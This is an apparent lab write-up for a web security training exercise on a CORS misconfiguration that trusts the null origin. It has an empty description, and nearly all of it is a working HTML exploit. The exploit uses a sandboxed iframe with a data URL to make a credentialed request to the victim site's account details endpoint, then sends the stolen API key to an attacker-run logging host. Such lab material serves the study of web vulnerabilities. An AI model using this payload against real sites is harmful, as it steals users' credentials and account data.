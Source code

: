# Lab: CORS vulnerability with trusted null origin
## Description
.

## Solution
```html
<html>
<head>
</head>
<body>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://target.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
var obj = JSON.parse(this.responseText);
location='https://hacker.web-security-academy.net/log?key='+obj.apikey;
};
</script>"></iframe>
</body>
</html>
```